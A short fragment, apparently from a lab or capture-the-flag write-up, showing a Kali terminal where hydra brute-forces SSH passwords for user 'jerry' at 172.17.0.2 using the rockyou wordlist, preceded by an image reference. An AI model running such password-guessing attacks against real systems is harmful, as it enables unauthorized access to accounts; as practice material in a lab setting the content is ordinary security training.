 ┌──(daniel㉿kali)-[~]
└─$ hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -V -t 64 -V
